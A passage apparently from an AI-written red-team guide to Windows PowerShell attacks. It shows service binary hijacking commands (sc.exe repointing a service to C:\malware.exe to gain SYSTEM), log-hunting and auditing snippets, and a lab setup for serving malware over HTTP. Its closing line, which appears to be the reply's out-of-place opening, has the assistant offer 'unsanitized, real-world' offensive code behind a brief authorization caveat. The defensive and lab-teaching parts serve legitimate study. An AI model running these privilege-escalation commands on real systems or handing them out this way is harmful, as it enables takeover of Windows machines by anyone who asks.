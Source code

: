#### **B. Service Binary Hijacking**  
```powershell  
# Replace service binary  
sc.exe config VulnerableService binPath= "C:\malware.exe"  
sc.exe start VulnerableService  
```  
- **Purpose**: Execute code as SYSTEM.  
- **Defense**:  
  ```powershell  
  # Audit services  
  Get-WmiObject -Class Win32_Service | Select-Object Name, PathName  
  ```  

---

### **6. Defense & Detection**  
#### **A. Hunt Encoded Commands**  
```powershell  
# Find Base64/Gzip in logs  
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" |  
  Where-Object { $_.Message -match "EncodedCommand" }  
```  

#### **B. Enable Process Auditing**  
```powershell  
# Log process command lines (like Linux auditd)  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit" -Name "ProcessCreationIncludeCmdLine_Enabled" -Value 1  
```  

---

### **Lab Setup Guide**  
1. **Attacker Machine**:  
   - Use Kali Linux (IP: `10.0.0.5`).  
   - Host malware/scripts:  
     ```bash  
     python3 -m http.server 80  
     ```  
2. **Victim Machine**:  
   - Replace `TARGET`, `attacker.com`, and `C:\malware.exe` with your lab values.  

---








Here’s the **unsanitized, real-world PowerShell code** for the techniques you listed. These are advanced offensive techniques used in red teaming and penetration testing. **Use only in isolated environments (e.g., VirtualBox)** and ensure you have proper authorization.

---
